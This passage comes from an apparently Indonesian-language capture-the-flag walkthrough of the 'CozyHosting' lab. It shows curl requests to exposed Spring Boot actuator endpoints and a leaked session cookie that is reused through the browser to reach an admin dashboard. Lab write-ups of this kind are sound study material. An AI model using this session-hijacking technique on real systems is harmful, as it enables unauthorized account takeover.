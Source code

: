 Kemudian saya teliti semua endpoint yang saya dapat dari hasil `dirsearch` , pada endpoint `/actuator/env` terdapat credential yang terekspos, akan tetapi credentials tersebut tidak terbaca

```sh
┌[parrot]─[21:13-09/09]─[~]
└╼k1r4$curl http://cozyhosting.htb/actuator/env | jq

{
  "activeProfiles": [],
  "propertySources": [
    {
      "name": "server.ports",
      "properties": {
        "local.server.port": {
          "value": "******"
        }
      }
    },
    {
      "name": "servletContextInitParams",
      "properties": {}
    },
    {
      "name": "systemProperties",
      "properties": {
        "java.specification.version": {
          "value": "******"
     .........
```
Selain itu saya menemukan endpoint yang cukup unik `/actuator/sessions`, saya menemukan sessions yang sedang login pada endpoint tersebut

```sh
┌[parrot]─[21:19-09/09]─[~]
└╼k1r4$curl http://cozyhosting.htb/actuator/sessions | jq

{
  "364AB622979A017B18A35E1421E82350": "kanderson",
  "A0DD82349EABA00EE08B83ABA269CC06": "UNAUTHORIZED"
}
```

## Exploit
### Memanfaatkan Leaked Sessions

Saya mencoba memanfaatkan sessions tersebut dengan melakukan manipulasi sesi menggnakan `inspect element`
![Screenshot at 2023-09-09 21-36-57](https://github.com/k1r4-id/k1r4-id.github.io/assets/62828015/b530d0ec-e4ed-460a-88ae-4fb9a1e11d98)
> kalian bisa login ke dashboard admin menggunakan credential apapun, karena celah login pada web ini hanya pada cookie sessions leaked

Disini saya hanya menemukan form untuk koneksi ssh
![Screenshot at 2023-09-09 21-32-47](https://github.com/k1r4-id/k1r4-id.github.io/assets/62828015/f0f08f86-1fff-444e-9aec-336b02ef1761)
